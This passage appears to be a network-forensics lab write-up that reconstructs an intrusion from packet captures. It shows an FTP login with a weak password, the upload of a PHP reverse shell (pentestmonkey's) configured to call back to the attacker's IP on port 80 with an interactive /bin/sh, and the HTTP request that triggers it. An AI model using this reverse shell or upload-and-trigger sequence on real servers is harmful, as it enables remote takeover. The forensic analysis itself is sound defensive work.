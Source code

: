 At 17:26:36.410866104 the attacker succeeded in gaining access to the user account "jenny":

```
220 Hello FTP World!
USER jenny
331 Please specify the password.
PASS password123
230 Login successful.
```

TCP stream showing the TA uploading `shell.php` via port 50339:

```
TYPE I
200 Switching to Binary mode.
PORT 192,168,0,147,196,163
200 PORT command successful. Consider using PASV.
STOR shell.php
150 Ok to send data.
226 Transfer complete.
```

Filtering by `tcp.port == 50339` shows the contents of `shell.php`:

```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//script continues
```

And the TA's IP address and specified port for the shell:

```php
set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.0.147';  // CHANGE THIS
$port = 80;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//SCRIPT CONTINUES
```

Filtering by `ip.src == 192.168.0.147` and investigating beyond the FTP traffic shows the TA accessing `/shell.php` on the web server at 17:26:54.685119276:

```html
GET /shell.php HTTP/1.1
Host: 192.168.0.115
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
```

